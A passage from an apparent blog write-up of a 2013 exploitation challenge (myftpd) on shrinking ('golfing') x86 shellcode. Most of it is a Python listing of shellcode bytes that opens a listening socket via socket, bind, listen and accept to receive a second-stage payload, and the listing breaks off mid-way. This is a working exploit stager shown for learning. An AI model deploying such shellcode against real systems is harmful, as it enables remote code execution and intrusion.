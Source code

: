 We have control, and now we need to squeeze in our shellcode.

## Shellcode Golf

This time around I'm not going to go through things step by step like I did last time. Instead I'm going to keep it brief and highlight the key changes. Bear in mind that I wanted the shellcode to behave the same as the XP version in that it'd create a new socket to listen on and read the payload into memory. In order to do this I needed to save a number of bytes to get it to fit because the existing payload was too big.

### Saving 1 - JMP removal

First of all, I didn't have to deal with jumps like in the XP version so I could rejig the payload to be generated in order without those jmp shenanigans taking up valuable space. The first version looked like this:

``` python Shellcode post-JMP shuffle
shellcode  = ""
# Adjust the stack to prevent it from breaking things in our shellcode
shellcode += "\x83\xEC\x7C"                       # SUB ESP, 0x7C
# Get the address of `socket` into EBX
shellcode += "\xBB\x44\x34\x34\x40"               # MOV EBX,<offsetted address>
shellcode += "\xC1\xEB\x08"                       # SHR EBX, 0x8
# set up the stack for the call to `socket`
shellcode += "\xB0\x06"                           # MOV AL, 0x6
shellcode += "\x50"                               # PUSH EAX
shellcode += "\xB0\x01"                           # MOV AL, 0x1
shellcode += "\x50"                               # PUSH EAX
shellcode += "\x40"                               # INC EAX
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `socket`
shellcode += "\xFF\xD3"                           # CALL EBX
# save our socket handle
shellcode += "\x89\xC7"                           # MOV EDI, EAX
# Find sockaddr
shellcode += "\x89\xD9"                           # MOV ECX, EBX
shellcode += "\xB5\x74"                           # MOV CH, 0x74
# adjust the port number by bumping it up one to 22
shellcode += "\xFE\x41\x03"                       # INC BYTE [ECX+3]
# adjust the call pointer to reference `bind`
shellcode += "\xB3\x54"                           # MOV BL, 0x54
# prepare the parameters on the stack for the `bind` call
shellcode += "\x6A\x10"                           # PUSH 0x10
shellcode += "\x51"                               # PUSH ECX
shellcode += "\x50"                               # PUSH EAX
# invoke the call to `bind`
shellcode += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `listen`
shellcode += "\xB3\x5C"                           # MOV BL, 0x5C
# prepare the parameters on the stack for the `listen` call
shellcode += "\x6A\x7F"                           # PUSH 0x7F
shellcode += "\x57"                               # PUSH EDI
# invoke the call to `listen`
shellcode += "\xFF\xD3"                           # CALL EBX
# adjust the call pointer to reference `accept`
shellcode += "\xB3\x24"                           # MOV BL, 0x24
# prepare the parameters on the stack for the `accept` call
shellcode += "\x57"                               # PUSH EDI
# invoke the call to `accept`
shellcode += "\xFF\xD3"                           # CALL EBX
# prepare for the malloc call and call it
shellcode += "\x8B\xF8"                           # MOV EDI, EAX
shellcode += "\x66\xBB\xD4\x3D"                   # MOV BX, 0x3DD4
shellcode += "\x8A\xE0"                           # MOV AH, AL
```

  [previous post]: /posts/idsecconf-2013-myftpd-challenge/
  [SEH overwrites]: https://www.corelan.be/index.php/2009/07/25/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-3-seh/
  [ASLR]: https://en.wikipedia.org/wiki/Address_space_layout_randomization